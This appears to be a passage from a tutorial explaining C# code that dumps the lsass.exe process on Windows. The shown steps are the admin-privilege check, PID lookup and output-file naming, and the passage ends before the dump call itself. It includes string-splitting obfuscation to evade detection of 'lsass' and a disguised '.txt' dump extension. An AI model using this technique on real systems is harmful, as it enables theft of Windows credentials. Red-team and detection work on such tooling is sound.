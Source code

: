 To reach our goal, we will create a code that will:

- Check we are running an elevated process
- Get the lsass.exe PID
- Generate the file name or get it from the input arguments
- Create the output file with the correct name
- Get a handle to the lsass.exe process
- Dump the process


## Explaining the code

First we need to check if the process is running with administrative privileges, as it will not work otherwise. We will use this code:

```c
// Check we are running an elevated process
if (WindowsIdentity.GetCurrent().Owner
      .IsWellKnown(WellKnownSidType.BuiltinAdministratorsSid) == false)
{
    Console.WriteLine("[-] Error: Execute with administrative privileges.");
    return;
}
```

Then, as we are in an elevated process, we can retrieve the lsass.exe process ID with the function getProcessPid():

```c
int processPID = getProcessPid();
Console.WriteLine("[+] Process PID: " + processPID);
```

In this function we will use a very dumb obfuscation to avoid using the string "lsass" - we will concatenate each letter of the string, creating the new string *processname_str*:

```c
static int getProcessPid() {
            string str1 = "l";
            string str3 = "s";
            string str5 = "a";
            string processname_str = str1 + str3 + str5 + str3 + str3;
            int processPID = Process.GetProcessesByName(processname_str)[0].Id;
            return processPID;
        }
```

We will then generate a name for the dump file we will create, and also a pointer to it.
- If there is an input argument with a file name, we will use that
- If not, we will generate a file name using the hostname and date.
	- Format: hostname_DD-MM-YYYY-HHMM (for example, hostname_01-12-2021-1200)

```c
String filename;
if (args == null || args.Length == 0)
{
    // Source: https://docs.microsoft.com/en-us/dotnet/api/system.datetime.tostring?view=net-5.0
    String now = DateTime.Now.ToString("dd-MM-yy-HHmm");
    String extension = ".txt";
    filename = Directory.GetCurrentDirectory() + "\\" + Environment.MachineName + "_" + now + extension;
}
else
{
    filename = args[0];
}
```
